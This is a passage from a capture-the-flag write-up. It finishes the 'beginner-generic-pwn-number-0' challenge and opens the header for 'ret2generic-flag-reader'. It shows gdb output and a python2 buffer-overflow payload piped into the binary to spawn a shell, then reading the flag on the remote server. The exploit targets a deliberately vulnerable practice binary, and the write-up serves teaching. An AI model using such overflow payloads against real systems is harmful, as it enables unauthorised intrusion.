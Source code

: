 ...and sure enough, our target addresses are now filled with `ff`s, which should allow the `jne` to pass and call the systemcall. `gdb` says 

```
(gdb) c
Continuing.
[Detaching after vfork from child process 12200]
[Inferior 1 (process 12156) exited normally]
```

...which means a system call has spawned in another process, in this case the shell. We try to run the python snippet on the actual binary 

```sh
(python2 -c "print(b'A'*40 + b'\xff'*8)" ; cat) | ./beginner-generic-pwn-number-0
```
*You have to wrap the line with parenthesis and then do this semicolon `cat` trick to get output from the shell. There are other cleaner ways to redirect the output from shell but this method works and is simple to remember.*

```
darkcoder:SOLVED_beginner-generic-pwn-number-0/ (pwn*) $ (python2 -c "print(b'A'*40 + b'\xff'*8)" ; cat) | ./beginner-generic-pwn-number-0
"𝘱𝘭𝘦𝘢𝘴𝘦 𝘸𝘳𝘪𝘵𝘦 𝘢 𝘱𝘸𝘯 𝘴𝘰𝘮𝘦𝘵𝘪𝘮𝘦 𝘵𝘩𝘪𝘴 𝘸𝘦𝘦𝘬"
rob inc has had some serious layoffs lately and i have to do all the beginner pwn all my self!
can you write me a heartfelt message to cheer me up? :(
whoami
darkcoder
```

...and indeed we have a shell. Pass it to the remote server, run `ls; cat flag.txt` and the flag is ours.

##### Flag: flag{im-feeling-a-lot-better-but-rob-still-doesnt-pay-me}

### pwn/ret2generic-flag-reader

---

#### Categeory: Binary Exploit

#### Difficulty: Easy

#### Keywords: Buffer Overflow, Binary Exploit

#### Author: TheRealDarkCoder

#### Prompt:>

```
i'll ace this board meeting with my new original challenge!

nc mc.ax 31077
```
